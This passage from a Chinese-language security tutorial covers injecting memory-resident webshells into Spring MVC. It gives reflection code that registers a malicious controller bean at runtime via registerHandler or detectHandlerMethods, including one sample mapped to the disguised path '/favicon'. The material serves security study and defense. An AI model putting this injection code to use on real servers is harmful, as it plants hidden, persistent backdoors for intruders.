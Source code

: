 ```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");
```

#### 5.2.8.3、detectHandlerMethods

参考上面的 `HandlerMapping` 接口继承关系图，针对使用 `RequestMappingHandlerMapping` 映射器的应用，可以找到它继承的顶层类`org.springframework.web.servlet.handler.AbstractHandlerMethodMapping`在其`detectHandlerMethods()` 方法中

```java
protected void detectHandlerMethods(Object handler) {
    Class<?> handlerType = handler instanceof String ? this.getApplicationContext().getType((String)handler) : handler.getClass();
    final Class<?> userType = ClassUtils.getUserClass(handlerType);
    Set<Method> methods = HandlerMethodSelector.selectMethods(userType, new MethodFilter() {
        public boolean matches(Method method) {
            return AbstractHandlerMethodMapping.this.getMappingForMethod(method, userType) != null;
        }
    });
    Iterator var6 = methods.iterator();
    while(var6.hasNext()) {
        Method method = (Method)var6.next();
        T mapping = this.getMappingForMethod(method, userType);
        this.registerHandlerMethod(handler, method, mapping);
    }
}
```

该方法仅接受`handler`参数，同样可以在 `this.getApplicationContext()` 获得的上下文环境中寻找名字为 `handler` 参数值的 `bean`, 并注册 `controller` 的实例 `bean`

```java
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("恶意Controller").newInstance());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```

### 5.2.9、实现恶意的Controller
